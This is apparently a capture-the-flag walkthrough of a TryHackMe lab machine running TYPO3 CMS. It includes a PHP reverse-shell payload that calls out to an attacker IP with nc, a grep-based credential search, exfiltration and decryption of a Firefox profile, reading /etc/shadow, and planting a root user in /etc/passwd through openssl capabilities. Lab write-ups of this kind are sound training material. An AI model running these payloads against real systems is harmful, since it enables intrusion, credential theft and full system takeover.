Set-Cookie: be_lastLoginProvider=1433416747; expires=Thu, 13-Feb-2025 13:59:53 GMT; Max-Age=7776000; path=/typo3/; httponly; samesite=strict
X-Frame-Options: SAMEORIGIN
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html; charset=utf-8

[REDACTED] - MORE

  <div class="form-group t3js-login-username-section" id="t3-login-username-section">
        <div class="form-control-wrap">
            <div class="form-control-holder">
                <input type="text" id="t3-username" name="username" value="" aria-label="Username" placeholder="Username" class="form-control input-login t3js-clearable t3js-login-username-field" autofocus="autofocus" required="required" />
                <div class="form-notice-capslock hidden t3js-login-alert-capslock">
                    
                </div>
            </div>
        </div>
    </div>
    <div class="form-group t3js-login-password-section" id="t3-login-password-section">
        <div class="form-control-wrap">
            <div class="form-control-holder">
                <input type="password" id="t3-password" name="p_field" value="" aria-label="Password" placeholder="Password" class="form-control input-login t3js-clearable t3js-login-password-field" required="required" data-rsa-encryption="t3-field-userident" />
                <div class="form-notice-capslock hidden t3js-login-alert-capslock">
                    
                </div>
            </div>
        </div>
        
[REDACTED] - MORE
```


> **TYPO3 CMS Internal Access Phase**
> 


> **TYPO3 CMS Settings Manipulation & Reverse Shell Phase**
> 

**For more information:**

[Cross-Site Scripting Vulnerabilities in File Upload Handling](https://typo3.org/article/typo3-psa-2019-010)


`nano reversefile.php`

```jsx
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 21222 >/tmp/f") ?>
```

`nc -nlvp 21222`

```jsx
listening on [any] 21222 ...
```


`curl -iLX GET http://admin1.vulnnet.thm/fileadmin/user_upload/reversefile.php`

```jsx
listening on [any] 21222 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.45.201] 38408
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@vulnnet-endgame:/var/www/admin1/fileadmin/user_upload$ export TERM=xterm        
www-data@vulnnet-endgame:/var/www/admin1/fileadmin/user_upload$ whoami
www-data

www-data@vulnnet-endgame:/var/www/admin1/fileadmin/user_upload$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@vulnnet-endgame:/var/www/admin1/fileadmin/user_upload$ pwd
/var/www/admin1/fileadmin/user_upload
www-data@vulnnet-endgame:/var/www/admin1/fileadmin/user_upload$ cd ~ 
www-data@vulnnet-endgame:/var/www$ ls -lsa /home
total 12
4 drwxr-xr-x  3 root   root   4096 Jun 14  2022 .
4 drwxr-xr-x 24 root   root   4096 Jun 15  2022 ..
4 drwxr-xr-x 18 system system 4096 Jun 15  2022 system

www-data@vulnnet-endgame:/var/www$ dpkg --version
Debian 'dpkg' package management program version 1.19.0.5 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.

www-data@vulnnet-endgame:/var/www$ uname -a
Linux vulnnet-endgame 5.4.0-120-generic #136~18.04.1-Ubuntu SMP Fri Jun 10 18:00:44 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux

www-data@vulnnet-endgame:/var/www$ 
```

> **Internal System Enumeration Phase**
> 

```jsx
www-data@vulnnet-endgame:/var/www$ ss -tulwn

Netid State   Recv-Q  Send-Q         Local Address:Port      Peer Address:Port  
icmp6 UNCONN  0       0                     *%eth0:58                   *:*     
udp   UNCONN  0       0                    0.0.0.0:5353           0.0.0.0:*     
udp   UNCONN  0       0                    0.0.0.0:46095          0.0.0.0:*     
udp   UNCONN  0       0              127.0.0.53%lo:53             0.0.0.0:*     
udp   UNCONN  0       0          10.10.45.201%eth0:68             0.0.0.0:*     
udp   UNCONN  0       0                    0.0.0.0:68             0.0.0.0:*     
udp   UNCONN  0       0                    0.0.0.0:631            0.0.0.0:*     
udp   UNCONN  0       0                       [::]:39139             [::]:*     
udp   UNCONN  0       0                       [::]:5353              [::]:*     
tcp   LISTEN  0       80                 127.0.0.1:3306           0.0.0.0:*     
tcp   LISTEN  0       128            127.0.0.53%lo:53             0.0.0.0:*     
tcp   LISTEN  0       128                  0.0.0.0:22             0.0.0.0:*     
tcp   LISTEN  0       5                  127.0.0.1:631            0.0.0.0:*     
tcp   LISTEN  0       511                        *:80                   *:*     
tcp   LISTEN  0       128                     [::]:22                [::]:*     
tcp   LISTEN  0       5                      [::1]:631               [::]:*    
 
www-data@vulnnet-endgame:/var/www$ grep -r 'password'

api/index.php:$password = "q2SbGTnSSWB95";
api/index.php:$conn = new mysqli($servername, $username, $password, "blog");
api/vn_internals/api/v2/fetch/index.php:$password = "q2SbGTnSSWB95";
api/vn_internals/api/v2/fetch/index.php:$conn = new mysqli($servername, $username, $password, "blog");
admin1/composer.lock:            "description": "🛠 Nette Utils: lightweight utilities for string & array manipulation, image handling, safe JSON encoding/decoding, validation, slug or strong password generating etc.",
admin1/composer.lock:                "password",
admin1/typo3conf/LocalConfiguration.php:        'passwordHashing' => [
admin1/typo3conf/LocalConfiguration.php:                'password' => 'q2SbGTnSSWB95',

[REDACTED] - MORE

www-data@vulnnet-endgame:/var/www$ cat /var/www/api/index.php

www-data@vulnnet-endgame:/var/www$ cat /var/www/api/index.php

<?php

$servername = "localhost";
$username = "dbadmin";
$password = "q2SbGTnSSWB95";

// Create connection
$conn = new mysqli($servername, $username, $password, "blog");

// Check connection
if ($conn->connect_error) {
  die("Connection failed: " . $conn->connect_error);
}
echo "VulnNet API is up!";

?>

www-data@vulnnet-endgame:/var/www$ cat /var/www/api/vn_internals/api/v2/fetch/index.php

<?php

$servername = "localhost";
$username = "dbadmin";
$password = "q2SbGTnSSWB95";

// Create connection
$conn = new mysqli($servername, $username, $password, "blog");

// Check connection
if ($conn->connect_error) {
  die("Connection failed: " . $conn->connect_error);
}

header("Content-Type:application/json");

if (isset($_GET['blog']) && $_GET['blog']!="") {
        $request_id = $_GET['blog'];
        $result = mysqli_query(
        $conn,
        "SELECT * FROM `blog_posts` WHERE id=$request_id");
        if(mysqli_num_rows($result)>0){
        $row = mysqli_fetch_array($result);
        $id = $row['id'];
        $titles = $row['titles'];
        $status = $row['status'];
        response($request_id, $id, $titles, $status);
        mysqli_close($conn);
        }else{
                response(NULL, NULL, 200,"No Record Found");
                }
}else{
        response(NULL, NULL, 400,"Invalid Request");
        }

function response($request_id, $id, $titles, $status){
        $response['request_id'] = $request_id;
        $response['blog_id'] = $id;
        $response['titles'] = $titles;
        $response['status'] = $status;

        $json_response = json_encode($response);
        echo $json_response;
}

?>

www-data@vulnnet-endgame:/var/www$ cat /var/www/admin1/typo3conf/LocalConfiguration.php

<?php
return [
    'BE' => [
        'debug' => false,
        'explicitADmode' => 'explicitAllow',
        'fileDenyPattern' => '',
        'installToolPassword' => '$argon2i$v=19$m=65536,t=16,p=2$b2pxTkguMThRWlJVR25VcA$iSQ4VjD+27+aJAgNuD1kqlo7w4D2dyVgPr/ecNZ1TKY',
        'loginSecurityLevel' => 'normal',
        'passwordHashing' => [
            'className' => 'TYPO3\\CMS\\Core\\Crypto\\PasswordHashing\\Argon2iPasswordHash',
            'options' => [],
        ],
    ],
    'DB' => [
        'Connections' => [
            'Default' => [
                'charset' => 'utf8mb4',
                'dbname' => 'vn_admin',
                'driver' => 'mysqli',
                'host' => '127.0.0.1',
                'password' => 'q2SbGTnSSWB95',
                'port' => 3306,
                'tableoptions' => [
                    'charset' => 'utf8mb4',
                    'collate' => 'utf8mb4_unicode_ci',
                ],
                'user' => 'dbadmin',
            ],
        ],
    ],
    
[REDACTED] - MORE

www-data@vulnnet-endgame:/var/www$ cat /var/www/html/typo3-2/typo3conf/LocalConfiguration.php

[REDACTED] - MORE

    'DB' => [
        'Connections' => [
            'Default' => [
                'charset' => 'utf8mb4',
                'dbname' => 'typo33',
                'driver' => 'mysqli',
                'host' => '127.0.0.1',
                'password' => 'SuperSecret321',
                'port' => 3306,
                'tableoptions' => [
                    'charset' => 'utf8mb4',
                    'collate' => 'utf8mb4_unicode_ci',
                ],
                'user' => 'typo3',
            ],
        ],
    ],
    
[REDACTED] - MORE

www-data@vulnnet-endgame:/var/www$ ls -lsa /home/system

total 92
4 drwxr-xr-x 18 system system 4096 Jun 15  2022 .
4 drwxr-xr-x  3 root   root   4096 Jun 14  2022 ..
4 -rw-------  1 system system 2124 Jun 15  2022 .ICEauthority
0 lrwxrwxrwx  1 root   root      9 Jun 14  2022 .bash_history -> /dev/null
4 -rw-r--r--  1 system system  220 Jun 14  2022 .bash_logout
4 -rw-r--r--  1 system system 3771 Jun 14  2022 .bashrc
4 drwx------ 16 system system 4096 Jun 14  2022 .cache
4 drwx------ 14 system system 4096 Jun 14  2022 .config
4 drwx------  3 root   root   4096 Jun 14  2022 .dbus
4 drwx------  3 system system 4096 Jun 14  2022 .gnupg
4 drwx------  2 root   root   4096 Jun 14  2022 .gvfs
4 drwx------  3 system system 4096 Jun 14  2022 .local
4 drwxr-xr-x  4 system system 4096 Jun 14  2022 .mozilla
0 lrwxrwxrwx  1 root   root      9 Jun 14  2022 .mysql_history -> /dev/null
4 -rw-r--r--  1 system system  807 Jun 14  2022 .profile
0 -rw-r--r--  1 system system    0 Jun 14  2022 .sudo_as_admin_successful
4 drwxr-xr-x  2 system system 4096 Jun 14  2022 Desktop
4 drwxr-xr-x  2 system system 4096 Jun 14  2022 Documents
4 drwxr-xr-x  2 system system 4096 Jun 14  2022 Downloads
4 drwxr-xr-x  2 system system 4096 Jun 14  2022 Music
4 drwxr-xr-x  2 system system 4096 Jun 14  2022 Pictures
4 drwxr-xr-x  2 system system 4096 Jun 14  2022 Public
4 drwxr-xr-x  2 system system 4096 Jun 14  2022 Templates
4 dr-xr-x---  2 system system 4096 Jun 14  2022 Utils
4 drwxr-xr-x  2 system system 4096 Jun 14  2022 Videos
4 -rw-------  1 system system   38 Jun 14  2022 user.txt

www-data@vulnnet-endgame:/var/www$ 
```

> **Firefox Decryption Phase**
> 

```jsx
www-data@vulnnet-endgame:/var/www$ cd /home/system/.mozilla
www-data@vulnnet-endgame:/home/system/.mozilla$ ls -lsa

total 16
4 drwxr-xr-x  4 system system 4096 Jun 14  2022 .
4 drwxr-xr-x 18 system system 4096 Jun 15  2022 ..
4 drwxr-xr-x  2 system system 4096 Jun 14  2022 extensions
4 drwxr-xr-x  7 system system 4096 Jun 14  2022 firefox

www-data@vulnnet-endgame:/home/system/.mozilla$ zip -r /tmp/browser.rar /home/system/.mozilla/
www-data@vulnnet-endgame:/home/system/.mozilla$ cd /tmp
www-data@vulnnet-endgame:/tmp$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

```

`wget http://vulnnet.thm:8080/browser.rar`

```jsx
browser.rar                   100%[================================================>]
```

`unzip browser.rar`

`ls -lsa home/system/.mozilla/firefox`

```jsx
4 drwxr-xr-x  7 root root 4096 Jun 14  2022  .
4 drwxr-xr-x  4 root root 4096 Jun 14  2022  ..
4 drwxr-xr-x 13 root root 4096 Jun 14  2022  2fjnrwth.default-release
4 drwxr-xr-x  2 root root 4096 Jun 14  2022  2o9vd4oi.default
4 drwxr-xr-x 13 root root 4096 Jun 14  2022  8mk7ix79.default-release
4 drwxr-xr-x  3 root root 4096 Jun 14  2022 'Crash Reports'
4 -rwxr-xr-x  1 root root   62 Jun 14  2022  installs.ini
4 drwxr-xr-x  2 root root 4096 Jun 14  2022 'Pending Pings'
4 -rwxr-xr-x  1 root root  259 Jun 14  2022  profiles.ini
```

`python3 firefox_decrypt/firefox_decrypt.py home/system/.mozilla/firefox/2fjnrwth.default-release/`

```jsx
Website:   https://tryhackme.com
Username: 'chris_w@vulnnet.thm'
Password: '8y7TKQDpucKBYhwsb'
```

**For script source:**

[https://github.com/unode/firefox_decrypt](https://github.com/unode/firefox_decrypt)

> **SSH Connection Phase**
> 

`ssh system@vulnnet.thm -p 22`

```jsx
system@vulnnet.thm's password: 8y7TKQDpucKBYhwsb

system@vulnnet-endgame:~$ whoami
system
system@vulnnet-endgame:~$ id
uid=1000(system) gid=1000(system) groups=1000(system)
system@vulnnet-endgame:~$ pwd
/home/system

system@vulnnet-endgame:~$
```

> **Privilege Escalation with Capabilities & Creating Root User**
> 

**For more information:**

[openssl
            
            |
            
            GTFOBins](https://gtfobins.github.io/gtfobins/openssl/)

```jsx
system@vulnnet-endgame:~$ getcap -r / 2>/dev/null
/home/system/Utils/openssl =ep
/snap/core20/1081/usr/bin/ping = cap_net_raw+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

system@vulnnet-endgame:~$ cd Utils/
system@vulnnet-endgame:~/Utils$ ./openssl enc -in /etc/shadow
root:$6$cB/S/D17$1FhKwiSpNpdxPcWJ4q91KOsJzucvpeTr8v9CRPaNmDF5SF64BcTHwR1Bx4xP3RqxK52.uZ38MHH4rQxamADbI/:19157:0:99999:7:::
daemon:*:18885:0:99999:7:::
bin:*:18885:0:99999:7:::
sys:*:18885:0:99999:7:::
sync:*:18885:0:99999:7:::
games:*:18885:0:99999:7:::
man:*:18885:0:99999:7:::
lp:*:18885:0:99999:7:::
mail:*:18885:0:99999:7:::
news:*:18885:0:99999:7:::
uucp:*:18885:0:99999:7:::
proxy:*:18885:0:99999:7:::
www-data:*:18885:0:99999:7:::
backup:*:18885:0:99999:7:::
list:*:18885:0:99999:7:::
irc:*:18885:0:99999:7:::
gnats:*:18885:0:99999:7:::
nobody:*:18885:0:99999:7:::
systemd-network:*:18885:0:99999:7:::
systemd-resolve:*:18885:0:99999:7:::
syslog:*:18885:0:99999:7:::
messagebus:*:18885:0:99999:7:::
_apt:*:18885:0:99999:7:::
uuidd:*:18885:0:99999:7:::
avahi-autoipd:*:18885:0:99999:7:::
usbmux:*:18885:0:99999:7:::
dnsmasq:*:18885:0:99999:7:::
rtkit:*:18885:0:99999:7:::
cups-pk-helper:*:18885:0:99999:7:::
speech-dispatcher:!:18885:0:99999:7:::
whoopsie:*:18885:0:99999:7:::
kernoops:*:18885:0:99999:7:::
saned:*:18885:0:99999:7:::
avahi:*:18885:0:99999:7:::
colord:*:18885:0:99999:7:::
hplip:*:18885:0:99999:7:::
geoclue:*:18885:0:99999:7:::
pulse:*:18885:0:99999:7:::
gnome-initial-setup:*:18885:0:99999:7:::
gdm:*:18885:0:99999:7:::
system:$6$9oaZwdNG$jrpl883V5yMMdPAFvncio.JaEw3lx7by788qoORBJ1pV5OSGlfBX/ZjkI6qAEf.7Imb7rs6iaBlI4RBxcn.5w.:19157:0:99999:7:::
vboxadd:!:19157::::::
mysql:!:19157:0:99999:7:::
sshd:*:19157:0:99999:7:::

system@vulnnet-endgame:~/Utils$ 
```

`openssl passwd -6 --salt randomsalt hello_world`

```jsx
$6$randomsalt$Bw4y.Xsim.L6FguzbMIdHOA4VqNHuLweW07JktOM/qz1.HXN1gdTSUNRl1fzPUcht903aycvwbpLD1ft.XhKQ.
```

```jsx
system@vulnnet-endgame:~/Utils$ cp /etc/passwd /tmp/passwd.bak
system@vulnnet-endgame:~/Utils$ echo 'overthenet:$6$randomsalt$Bw4y.Xsim.L6FguzbMIdHOA4VqNHuLweW07JktOM/qz1.HXN1gdTSUNRl1fzPUcht903aycvwbpLD1ft.XhKQ.:0:0::/root:/bin/bash' >> /tmp/passwd.bak
system@vulnnet-endgame:~/Utils$ cat /tmp/passwd.bak | ./openssl enc -out /etc/passwd
system@vulnnet-endgame:~/Utils$ cat /etc/passwd

[REDACTED] - MORE

overthenet:$6$randomsalt$Bw4y.Xsim.L6FguzbMIdHOA4VqNHuLweW07JktOM/qz1.HXN1gdTSUNRl1fzPUcht903aycvwbpLD1ft.XhKQ.:0:0::/root:/bin/bash

system@vulnnet-endgame:~/Utils$ su overthenet
Password: hello_world

root@vulnnet-endgame:/home/system/Utils# whoami
root
root@vulnnet-endgame:/home/system/Utils# id
uid=0(root) gid=0(root) groups=0(root)
root@vulnnet-endgame:/home/system/Utils# 
```

# Appendix

## TYPO3 CMS

<aside>
💡

TYPO3 CMS is an open-source content management system (CMS) designed to create and manage websites, portals, and applications. Known for its flexibility, scalability, and robust feature set, TYPO3 is widely used for both small and large-scale projects, including corporate websites, intranets, and e-commerce platforms.

</aside>

## Linux Capabilities

<aside>
💡

Linux Capabilities are a fine-grained access control mechanism that allows you to grant specific privileges to processes or applications without giving them full superuser (root) permissions. This system helps to enhance security by limiting the scope of what a process can do, reducing the potential damage caused by compromised or misbehaving programs. Instead of giving a process full root privileges, you can assign only the capabilities it needs. For example, a process can be allowed to bind to privileged ports without having other root privileges.

</aside>